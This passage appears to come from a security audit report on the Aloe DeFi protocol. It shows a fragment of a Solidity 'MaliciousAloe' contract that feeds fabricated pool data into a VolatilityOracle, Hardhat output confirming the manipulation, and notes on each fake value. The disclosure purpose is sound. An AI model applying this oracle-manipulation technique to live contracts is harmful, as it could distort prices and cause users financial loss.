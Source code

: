 ```solidity
    require(_fakeObservationCardinality > 0, "Invalid cardinality");
    fakeSqrtPriceX96 = _fakeSqrtPriceX96;
    fakeCurrentTick = _fakeCurrentTick;
    fakeObservationIndex = _fakeObservationIndex;
    fakeObservationCardinality = _fakeObservationCardinality;
    fakeObservationTimestamp = _fakeObservationTimestamp;
    fakeFeeProtocol = _fakeFeeProtocol;
    fakeLiquidity = _fakeLiquidity;
}
}
```

And here's the output showing that data was in fact manipulated:

C:\Users\david\exploits>npx hardhat run scripts/Aloe.js --network hardhat
MaliciousAloe deployed at: 0x32cd5ecdA7f2B8633C00A0434DE28Db111E60636
VolatilityOracle deployed at: 0xbeC6419cD931e29ef41157fe24C6928a0C952f0b
Fake data has been set
prepare function executed successfully
Manipulated Data: [
  BigNumber { value: "340282366920938463463374607431768211455" },
  0,
  1,
  10000,
  1698503321,
  0,
  BigNumber { value: "1000000000000000000000000" },
  BigNumber { value: "0" },
  BigNumber { value: "0" },
  _fakeSqrtPriceX96: BigNumber { value: "340282366920938463463374607431768211455" },
  _fakeCurrentTick: 0,
  _fakeObservationIndex: 1,
  _fakeObservationCardinality: 10000,
  _fakeObservationTimestamp: 1698503321,
  _fakeFeeProtocol: 0,
  _fakeLiquidity: BigNumber { value: "1000000000000000000000000" },
  _fakeTickCumulative: BigNumber { value: "0" },
  _fakeSecondsPerLiquidityX128: BigNumber { value: "0" }
]

As for breaking down the manipulated values that are used within the `prepare` function, after being set in the `setFakeData` call:

1. `_fakeSqrtPriceX96`: a very high value to drastically manipulate the square root price.
2. `_fakeCurrentTick`: a value that corresponds to an extreme price.
3. `_fakeObservationIndex`: an index.
4. `_fakeObservationCardinality`: an high value to showcase a large number of observations.
5. `_fakeObservationTimestamp`: a recent timestamp.
6. `_fakeFeeProtocol`: a value for simulating a fee bypass.
7. `_fakeLiquidity`: a very high value to showcase a pool with high liquidity.

By following these steps, an attacker could actually manipulate the implied volatility calculations and achieve drastical outcomes within the Aloe protocol, therefore highlighting the need for additional verification and security measures in the `prepare` function.